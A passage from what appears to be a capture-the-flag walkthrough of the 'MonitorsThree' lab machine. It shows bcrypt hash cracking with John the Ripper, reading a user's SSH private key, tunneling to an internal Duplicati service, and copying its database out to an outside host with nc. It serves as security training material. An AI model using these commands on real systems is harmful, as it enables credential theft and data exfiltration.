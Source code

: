 Next, I focused on identifying and cracking Marcus's hash. This proved to be a bit tricky, so I used the following command to help identify it:

```
hashid -e -j $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK
```

The ```-e``` option ensures extended hash recognition, while the ```-j``` option runs John the Ripper mode, providing more detail about cracking the hash. After that, I was ready to finally crack it:

```
john --format=bcrypt -w /usr/share/wordlists/rockyou.txt hash.txt
```

With the password in hand, I was able to switch to the marcus user by issuing ```su marcus``` in my shell, which marked the start of the next phase of exploration. It's worth mentioning that I couldn’t directly SSH into the machine using Marcus's credentials. Instead, I looked around his home directory, hoping to find his SSH key. Here's how I did it:

```
cd /home/marcus/.ssh
cat id_rsa
```

On my machine, I created an ```id_rsa``` file, pasted the contents of Marcus's private key, set the appropriate permissions using ```chmod 600 id_rsa```, and then used the following command to SSH into the machine:

```
ssh -i id_rsa marcus@monitorsthree.htb
```

From there, I began my standard enumeration routine by listing the active ports on the machine with ```ss -tlnp```. This revealed a web service running on internal port 8200. I tunneled this port to my local machine and decided to gather additional information by using ```curl -v``` to inspect the service further:

```
ssh -i id_rsa -L 8200:127.0.0.1:8200 marcus@monitorsthree.htb -N -f
curl -v localhost:8200
```

Turns out I was dealing with something named "Duplicati":

*Duplicati is an open-source backup solution that provides a web-based interface to manage and schedule encrypted backups to various storage locations. The web service listens on a local port (in this case, port 8200) and can be accessed via a browser. It’s designed to allow users to manage backups, restore files, and perform other administrative tasks, making it a valuable target for exploitation if proper security measures aren't in place, such as weak credentials or exposed backup files.*

Time for more research and exploration:

```
cd /opt/duplicati/config/
```

In the ```/opt/duplicati/config/``` directory, I came across the ```Duplicati-server.sqlite``` database. The best course of action was to copy it to my local machine using the standard approach:

```
ncat -l -p 9000 > Duplicati-server.sqlite

nc -q 0 10.10.14.9 9000 < 'Duplicati-server.sqlite'
```

